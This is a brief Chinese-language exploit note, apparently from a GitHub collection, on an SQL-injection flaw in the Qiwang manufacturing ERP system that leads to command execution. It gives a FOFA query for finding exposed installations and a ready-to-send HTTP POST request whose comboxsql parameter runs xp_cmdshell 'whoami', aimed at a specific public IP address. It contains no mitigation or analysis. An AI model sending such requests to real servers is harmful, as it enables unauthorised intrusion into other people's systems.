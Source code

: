 # 企望制造ERP系统存在 sql 注入导致的命令执行漏洞 

    ## fofa

```
app="企望-ERP系统"
```

## exp

```
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: 110.187.226.220:8093
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
Content-Length: 35

comboxsql=exec xp_cmdshell+"whoami"
```
